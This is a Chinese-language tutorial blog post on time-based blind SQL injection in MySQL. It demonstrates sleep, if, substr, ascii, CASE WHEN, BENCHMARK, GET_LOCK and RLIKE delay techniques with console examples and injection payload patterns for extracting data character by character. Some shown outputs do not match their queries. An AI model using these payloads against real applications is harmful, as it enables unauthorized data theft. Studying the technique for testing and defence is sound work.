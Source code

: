 ```yaml
---
title: 基于时间的盲注
date: 2021-05-15 15:00:00
tags: 
      - 网络安全
      - Web 安全
categories: 
- [网络安全, CTF]
- [网络安全, Web 安全]
---
```


时间盲注详解

<!--more-->

## 1. 基础知识
时间盲注指通过页面执行的时间来判断数据内容的注入方式，通常用于数据（包含逻辑型）不能返回到页面中的场景，无法利用页面回显判断数据内容，只能通过执行的时间来获取数据。

在执行语句的过程中，由于 sleep(duration) 函数的存在，保证是注入导致的延时，而不是业务正常处理导致的延时。

## 2. 原理演示
### 2.1 sleep 函数
- sleep(duration)
  - 睡眠时间为 duration 参数给定的秒数，然后返回0；若函数被中断，返回1。
  
```shell
mysql> select * from user;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | admin    | 12345678 |
|  2 | admin1   | aaaa     |
|  3 | admin2   | aaaa     |
|  4 | admin3   | aaaa     |
+----+----------+----------+
4 row in set (0.00 sec)

mysql> select sleep(3);
+----------------------+
| sleep(3)             |
+----------------------+
| 0                    |
+----------------------+
1 row in set (3.00 sec)

mysql> select * from user where id = 1 and sleep(3);
Empty set (3.01 sec)

mysql> select * from user where id = 5 and sleep(3);
Empty set (0.00 sec)

```

sleep(3) 执行完成后返回 0，所以 `select * from user where id = 1 and sleep(3)`查询 0 条数据

and 的逻辑是如果 and 左侧表达式为假，则直接返回假，不再直接右侧表达式。所以当 id=5 查不到数据时，直接就会返回结果，这样就可以用布尔注入逻辑，根据执行的时长，来测试是否查到数据。

如果 and 逻辑换成 or，又会有变化。

```shell
mysql> select * from user where id = 1 or sleep(3);
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | admin    | 12345678 |
+----+----------+----------+
1 row in set (9.01sec)
```
or 逻辑是左侧若为真则不判断右侧表达式，所以 id=1 这条执行了 0.01 sec，接下来 id=2,3,4 这几条数据都会执行 sleep(3)，总共是 9.01sec。（可能不是所有版本都是这样的逻辑）

### 2.2 配合 if  条件触发 
- if(expr1, expr2, expr3)
  - 如果 expr1 是 True，则返回 expr2，否则返回 expr3
  - 返回值是数字值或字符串值
```shell
mysql> select * from user where id = 5 or if(username = 'admin', 1, 0);
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | admin    | 12345678 |
+----+----------+----------+
1 row in set (9.01sec)

mysql> select * from user where id = 1 and if(database()=' ', sleep(4), null);
```

### 2.3 截取函数
配合截取函数，能够判断猜测的某一位数据是否准确

单个字母爆破

```shell
mysql> select * from user where username='a' or if(substr((select username from user where id = 1), 1, 1) = 'a' , sleep(3), 0)  
```
- substring
  - substring(str, pos)
  - substring(str FROM pos)
  - substring(str, pos, len)
  - substring(str FROM pos FOR len)
- substr(str, start, length)
- mid(str, start, length)
- substring_index(str, delim, count) 
  - str：被截取字符串
  - delim：关键字
  - count：关键字出现的次数 

实际上，使用正则表达式也能达到类似的效果,“^”表示从头开始匹配
```shell
mysql> select * from user where password rlike = '^1';
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | admin    | 12345678 |
+----+----------+----------+
1 row in set (0.00sec)

mysql> select * from user where password regexp '^12';
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | admin    | 12345678 |
+----+----------+----------+
1 row in set (0.00sec)
```

我们注意到，进行匹配时传入单个字符都需要引号，如果想不传入引号达到一样的效果，可以使用 ascii() 函数
```sql
select * from table where id = 1 and (if(substr(database(),1,1)=' ',sleep(4),null))

select * from table where id = 1 and (if(ascii(substr(database(),1,1))=100,sleep(4),null))
```

### 2.4 配合 select case when 条件触发
SQL CASE 表达式是一种通用的条件表达式，类似于其他语言中的  if...else... 语句
> CASE WHEN condition THEN result
> [WHEN ...]
> [ELSE result]
> END

先来一个使用举例：
```shell
mysql> select case when username = 'admin' THEN 'aaa' ELSE 'xxxx' end from user;
+---------------------------------------------------------+
| case when username = 'admin' THEN 'aaa' ELSE 'xxxx' end |
+---------------------------------------------------------+
|  aaa                                                    |
|  xxxx                                                   |
|  xxxx                                                   |
|  xxxx                                                   |
+---------------------------------------------------------+
4 row in set (0.00sec)
```
可以与 sleep 或者其他形式结合
```sql
mysql> select case when username = 'admin' THEN (sleep(3)) ELSE 'xxxx' end from user;
+---------------------------------------------------------+
| case when username = 'admin' THEN 'aaa' ELSE 'xxxx' end |
+---------------------------------------------------------+
|  0                                                      |
|  xxxx                                                   |
|  xxxx                                                   |
|  xxxx                                                   |
+---------------------------------------------------------+
4 row in set (3.01sec)
```

### 2.5 除 sleep 之外的延时
- BENCHMARK(count, expr)
  - 重复 count 次执行表达式 expr。
  - 可以被用于计算 MySQL 处理表达式的速度
  - 结果值通常为0
- 笛卡尔积
  - SELECT count(*) FROM information_schema.columns A, information_schema.colums B, information_schema.colums C;
  - 通过复杂的运算达到延时
- GET_LOCK(str, timeout)
  - 使用字符串 str 给定的名字得到一个锁，超时为 timeout 秒
  - 局限：当前会话不会生效，只有新会话开启，并且保持长连接（ mysql_pconnect函数来连接数据库），才能生效
session 1
```shell
mysql> select get_lock('karma',1);
+---------------------+
| get_lock('karma',1) |
+---------------------+
|                   1 |
+---------------------+
1 row in set (0.00 sec)
```
session 2
```shell
mysql> select get_lock('karma',10);
+----------------------+
| get_lock('karma',10) |
+----------------------+
|                    0 |
+----------------------+
1 row in set (10.00 sec)
```

- RLIKE
  - 通过 rpad 或 repeat 构造长字符串，加以计算量打的 pattern，通过 repeat 的参数可以控制延时长短
```shell
mysql> select concat (rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a')) RLIKE '(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+b'

*****
1 row in set (0.51 sec)
```

————————————————
- [浅谈SQL盲注测试方法解析与技巧](https://www.freebuf.com/articles/web/175049.html)
- [MySQL中RLIKE运算符的使用详解](https://www.php.cn/mysql-tutorials-417450.html)
- [Mysql时间盲注手工注入详解](https://www.jianshu.com/p/0d607589e3ad)